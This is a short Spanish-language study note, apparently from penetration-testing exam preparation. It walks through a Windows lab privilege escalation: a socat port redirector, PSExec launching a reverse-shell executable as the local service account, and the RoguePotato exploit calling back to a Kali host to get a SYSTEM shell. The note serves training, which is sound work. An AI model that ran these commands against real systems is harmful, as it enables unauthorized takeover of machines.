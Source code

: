 
- Configure un redirector de socat en Kali, reenviando el puerto Kali 135 al puerto 9999 en Windows:

```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.94.6:9999
```

- Comience un oyente en Kali. Simule la obtención de un shell de cuenta de servicio iniciando sesión en RDP como usuario administrador, iniciando un símbolo del sistema elevado (haga clic derecho -> ejecutar como administrador) y utilizando PSExec64.exe para activar el ejecutable reverse.exe que creó con los permisos de la cuenta "servicio local:

```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

- Comience otro oyente en Kali.

- Ahora, en el shell inverso "servicio local" que activó, ejecute el exploit RoguePotato para activar un segundo shell inverso que se ejecuta con privilegios SYSTEM (actualice la dirección IP con su IP Kali en consecuencia):

```
C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Token Impersonation - PrintSpoofer]]
[[Generate a Reverse Shell Executable]]